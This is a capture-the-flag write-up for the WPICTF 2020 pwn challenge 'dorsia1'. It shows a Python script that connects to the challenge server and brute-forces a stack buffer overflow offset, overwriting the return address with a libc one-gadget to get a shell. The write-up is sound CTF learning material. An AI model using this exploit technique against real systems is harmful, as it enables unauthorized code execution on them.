 
## dorsia1
### Description

> http://us-east-1.linodeobjects.com/wpictf-challenge-files/dorsia.webm The first card. 
>
> nc  dorsia1.wpictf.xyz 31337 or 31338 or 31339 
>
> made by: awg 
>
> Hint: Same libc as dorsia4, but you shouldn't need the file to solve.


### Attachment

[dorsia1](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/WPICTF2020/pwn/dorsia1/dorsia1) (not given, I download it after getshell)

### Analysis

We can get source code of this challenge from the first card:

![](http://image.taqini.space/img/cap_dorsia_00:00:06_01.jpg) 

`system+765772` is the address of one gadget in `libc2.27`, and there is a buffer overflow in stack. So we can overwrite the return address with address of one gadget.

### Solution

We can't get the precise offset between buffer `a` and return address, but we know the approximate range. So try it:

```python
for i in range(4,20):
    p = remote('dorsia1.wpictf.xyz',31338)
    og = eval(p.recv(14))
    print 'og',hex(og)
    p.recv()
    offset = 69+i
    payload = 'A'*offset
    payload += p64(og)
    print "[+] ",i
    print payload
    p.sendline(payload)
    p.interactive()
```

> final offset is 77

### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/WPICTF2020/pwn/dorsia1) 


